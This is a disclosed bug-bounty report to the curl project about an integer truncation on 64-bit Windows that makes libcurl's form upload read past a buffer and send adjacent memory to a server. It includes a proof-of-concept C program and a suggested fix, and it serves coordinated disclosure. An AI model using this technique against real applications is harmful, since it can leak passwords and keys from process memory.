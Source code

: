 #  Remote memory disclosure vulnerability in libcurl on 64 Bit Windows

## Report Details
- **Report ID**: 1444539
- **URL**: https://hackerone.com/reports/1444539
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-01-09T15:24:59.101Z
- **Disclosed**: 2022-02-21T09:15:57.017Z

## Reporter
- **Username**: nsq11
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
# Remote memory disclosure vulnerability in libcurl on 64 Bit Windows

## Summary:

`libcurl` (latest) contains a vulnerability that enables attackers to
remotely read memory beyond the bounds of a buffer in the style of the
infamous "heartbleed" vulnerability. Luckily, however, this is only
possible when `libcurl` runs on 64 bit Windows and it requires an
attacker capable of influencing the size of a file upload part.

The core of the problem is the following: while on 64 Linux and BSD
systems, `sizeof(long)` is 8, on 64 bit Windows, it
is 4. Consequently, the function `AddHttpPost` carries out an integer
truncation and sign conversion on these systems, as the parameter
`bufferlength` of type `size_t` (8 byte wide, unsigned) is assigned to
the field `post->bufferlength` of type `long` (4 byte wide,
signed). The following excerpt shows the corresponding code:


```
static struct curl_httppost *
AddHttpPost(char *name, size_t namelength,
            char *value, curl_off_t contentslength,
            char *buffer, size_t bufferlength,
	        [...]
            struct curl_httppost **last_post)
{
	[...]
    post->buffer = buffer;
    post->bufferlength = (long)bufferlength; /* <=== */ 
	[...]
}
```

In particular, this function is triggered when constructing an HTTP
POST request that specifies custom file upload parts, e.g., with a
statement such as the following:

```
curl_formadd(&formpost,
             &lastptr,
             CURLFORM_COPYNAME, "name",
             CURLFORM_BUFFER, "data",
             CURLFORM_BUFFERPTR, buffer,
             CURLFORM_BUFFERLENGTH, size,
             CURLFORM_END);
```

An attacker capable of choosing the file to upload may choose for it
to be 4294967295 in size, and, indeed, `libcurl` will transfer this
file without trouble on 64 bit Linux. On 64 bit Windows, however, this
leads to `post->bufferlength` being -1 due to the
truncation/sign-conversion, which happens to also be the value of the
constant `CURL_ZERO_TERMINATED`. On posting the data, this undesirable
interpretation causes the function `curl_mime_data` to assume that the
length of the buffer to upload is not known and should be determined
via `strlen`. Assuming the buffer does not contain zero bytes - and in
fact, the documentation states that it MAY NOT contain zero bytes,
`strlen` will read beyond the bounds of the buffer `buffer`, and
subsequently transmit the buffer contents AND memory behind it to the
HTTP server.

The following (commented) excerpt of `curl_mime_data` illustrates this
behavior:

```
CURLcode curl_mime_data(curl_mimepart *part, /* <=== */ 
                        const char *data, size_t datasize)
{
   [...]

  if(data) {
    // This branch is triggered when `datasize` is -1,
	// Note that `datasize` is again `size_t`, so, it will
	// then be > 2**32-1.
    if(datasize == CURL_ZERO_TERMINATED)
      datasize = strlen(data);

	// With a system that has > 4GB RAM, this allocation
	// succeeds.
    part->data = malloc(datasize + 1);
    if(!part->data)
      return CURLE_OUT_OF_MEMORY;

	// The part size is now set to be larger than 2**32-1,
	// although 2**32-1 is the size of the file. 
    part->datasize = datasize;

```

## Steps To Reproduce:

To further illustrate the problem, I have created a sample application
for which the string "secret" is located directly after the
to-be-transmitted buffer. On 64 bit Linux, the program correctly
transmits only the contents of the buffer. On 64 bit Windows, it
transmits the buffer contents and the string "secret". Logging network
traffic using `tcpdump`, this has been confirmed as the attached
screenshots show.

The following is the sample program (test.c), which compiles both on Linux
and Windows (Visual Studio 2022 Community Edition).

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <curl/curl.h>

int main(void)
{
    CURL* curl;
    CURLM* multi_handle;
    int still_running = 0;
    struct curl_httppost* formpost = NULL;
    struct curl_httppost* lastptr = NULL;
    struct curl_slist* headerlist = NULL;
    static const char buf[] = "Expect:";

    // Place 4294967295 'A's on the heap (the buffer to transmit),
    // followed by the string "secret". If we now instruct libcurl
    // to transfer 4294967295, it should only transfer 'A's.
    
    size_t size = (size_t) 0xffffffff;
    char* buffer = (char*)malloc(size + strlen("secret") + 1);    
    memset(buffer, 'A', size);    
    memcpy(buffer + size, "secret", strlen("secret"));
    buffer[size + strlen("secret")] = '\0';

    // Instruct curl to send the buffer, specifying its size
    // to be 4294967295 (size)
    
    int ret = curl_formadd(&formpost,
        &lastptr,
        CURLFORM_COPYNAME, "name",
        CURLFORM_BUFFER, "data",
        CURLFORM_BUFFERPTR, buffer,
        CURLFORM_BUFFERLENGTH, size,
        CURLFORM_END);

    // The return value is 0 (success)
    printf("%d\n", ret);
    
    curl = curl_easy_init();
    multi_handle = curl_multi_init();    
    headerlist = curl_slist_append(headerlist, buf);
    if (curl && multi_handle) {
      // We are uploading to a local webserver, but this can be any webserver.
      // upload.cgi can be an empty file.
      curl_easy_setopt(curl, CURLOPT_URL, "http://192.168.1.216/upload.cgi");
      curl_easy_setopt(curl, CURLOPT_VERBOSE, 1L);
      curl_easy_setopt(curl, CURLOPT_HTTPHEADER, headerlist);
      curl_easy_setopt(curl, CURLOPT_HTTPPOST, formpost);      
      curl_multi_add_handle(multi_handle, curl);      
      do {
            CURLMcode mc = curl_multi_perform(multi_handle, &still_running);	    
            if (still_running)
	      /* wait for activity, timeout or "nothing" */
	      mc = curl_multi_poll(multi_handle, NULL, 0, 1000, NULL);	    
            if (mc)
	      break;	    
      } while (still_running);      
      curl_multi_cleanup(multi_handle);
      curl_easy_cleanup(curl);
      curl_formfree(formpost);
      curl_slist_free_all(headerlist);
    }
    return 0;
}
```

As suggested patch would be to use the type `long long` as opposed to
`long` for the buffer length. `long long` is guaranteed to be 8 byte
wide on Linux and Windows 64 bit systems.

## Impact

An attacker could read memory from the process remotely, meaning that any information processed by the program using libcurl may be disclosed. Depending on the application, this information may be sensitive, e.g., passwords, keys could be in memory. In addition, reading memory offsets may be useful to identify memory mappings remotely in preparation for a memory corruption exploits that requires bypassing of ASLR.

## Attachments
- screenshot-linux.png
- screenshot-win.png
- test.c
